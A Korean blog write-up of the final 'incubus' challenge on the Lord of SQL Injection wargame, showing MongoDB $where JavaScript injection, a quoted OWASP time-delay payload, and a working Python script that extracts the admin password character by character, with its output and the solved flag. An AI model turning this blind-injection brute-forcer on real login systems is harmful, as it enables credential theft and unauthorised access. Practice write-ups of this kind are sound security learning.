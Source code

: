 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - incubus 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어!!! 마지막 문제인 `incubus`이다.  

문제를 푼 시간보다 풀이를 적는 시간이 더 오래 걸렸던 것 같다..  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------------------
query : {"$where":"function(){return obj.id==''&&obj.pw=='';}"}
--------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  if(preg_match('/prob|_|\(/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\(/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = array("\$where" => "function(){return obj.id=='{$_GET['id']}'&&obj.pw=='{$_GET['pw']}';}");
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['pw'] === $_GET['pw']) solve("incubus");
  highlight_file(__FILE__);
?>
```

이번에도 `id`가 `admin`일 때의 `pw` 값을 알아야 한다.  

그런데 이번 문제에서는 조금 다른게 쿼리가 함수 형태로 들어갔다는 것이다.  

함수 형태로 들어가 있더라도, 내가 입력 한 값에 대해서는 특별한 검증이 없기 때문에 공격이 가능하다.  

내가 주로 고민했던 부분은 `obj.pw`에서 한 글자 씩을 어떻게 비교 할 것이냐는 부분이었다.  

그런데 여러가지 테스트를 해 보다가 `obj.pw[0]`과 같이 사용하면 한 글자 씩 사용할 수 있는 것을 확인할 수 있었다.  

일단 공격을 수행하기 위해서는 내가 의도한 코드를 실행시켜야 하는데, 여기에서는 `소스코드를 이어서 적는 방법`으로 함수의 흐름을 변경할 수 있다.  

`소스코드를 이어서 적는 방법`이라고 하니 뭔가 이상한데, 예를 들면 이런 것이다.  
[Testing for NoSQL injection](https://www.owasp.org/index.php/Testing_for_NoSQL_injection#Example_1)

여기의 예시를 보면, 아래와 같은 코드가 있다.  

```javascript
db.myCollection.find( { active: true, $where: function() { return obj.credits - obj.debits < $userInput; } } );;
```

이 때, `$userInput`에 대한 검증과정이 없다면 아래와 같은 코드를 `$userInput`으로 삽입하는 것이 가능하다.    

```javascript
(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<10000); return Math.max();})()
```

그 결과, 완성되는 코드는 다음과 같다.  

```javascript
function () { return obj.credits - obj.debits < (function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<10000); return Math.max();})(); }
```

즉, 입력 값에 내가 실행하고자 하는 소스코드를 입력하여 함수의 흐름을 바꾸는 것이다.  

나는 `id`가 `admin`일 때의 `pw` 값을 구해야 하므로, 실행되어야 하는 코드는 다음과 같은 형태여야 `pw`를 한 글자 씩 비교 해 전체 값을 알아낼 수 있다.  

```javascript
function(){return obj.id=='admin'&&obj.pw[0]=='a';}
```

따라서 내가 입력 한 값은 다음과 같다.  

```javascript
?id=admin'&&obj.pw[0]='a';'
```

이렇게 하면 `$query`에서 완성되는 코드는 다음과 같다.  

```javascript
function(){return obj.id=='admin'&&obj.pw[0]=='a';''&&obj.pw=='';}
```

만약 `obj.id`가 `admin`이고 `obj.pw`의  첫 번째 글자가 `a`라면 `return true`가 될 것이고, 뒤의 `''&&obj.pw=='';`는 별 다른 영향을 미치지 못할 것이다.  

이를 바탕으로 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests
import time

flag = ""
length = 40

url = "https://los.rubiya.kr/chall/incubus_3dff9ce783c9f574edf015a7b99450d7.php?id="
session = dict(PHPSESSID = "YOUR SESSION ID")

end = False

print "[+] Start"

print "[+] Find password"
	
for j in range(0, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + "admin'%26%26obj.pw[" + str(j) + "]=='" + str(chr(i)) + "';'"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j + 1), ":", flag
			break
		if i == 122:
			end = True
			print "[+] Maybe it's end of the password"
			break
	if end:
		break

print "[+] Found password : ", flag
print "[+] End"
```

이를 실행하면 다음과 같다.  

```
$ python ex.py
[+] Start
[+] Find password
[+] Found 1 : b
[+] Found 2 : b4
[+] Found 3 : b47
[+] Found 4 : b478
[+] Found 5 : b4782
[+] Found 6 : b47822
[+] Found 7 : b47822e
[+] Found 8 : b47822ea
[+] Maybe it's end of the password
[+] Found password :  b47822ea
[+] End
```

와 드디어 마지막 플래그 값을 얻었다!  

이를 아래와 같이 입력하면 문제를 풀 수 있다.  

```
?id=admin&pw=b47822ea
```

```php
-----------------------------------------------------------------------------------
query : {"$where":"function(){return obj.id==''&&obj.pw=='b47822ea';}"}
-----------------------------------------------------------------------------------

INCUBUS Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  if(preg_match('/prob|_|\(/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\(/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = array("\$where" => "function(){return obj.id=='{$_GET['id']}'&&obj.pw=='{$_GET['pw']}';}");
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['pw'] === $_GET['pw']) solve("incubus");
  highlight_file(__FILE__);
?>
```

`INCUBUS Clear`

드디어 `Lord of SQL Injection`을 또 다시 `All Clear` 했다!  

너무 신난다 히히힣  

지난번에 풀 때에는 모르는게 좀 많아서 물어보면서 했었는데, 이번에는 퇴근하고 매일매일 혼자 풀어서 올클을 한 거라 더욱 뿌듯했다.  

이제는 다른 공부거리를 찾아봐야 겠다.  

`Lord of SQL Injection All Clear!!`  

![](/images/los/incubus/incubus_01.png)
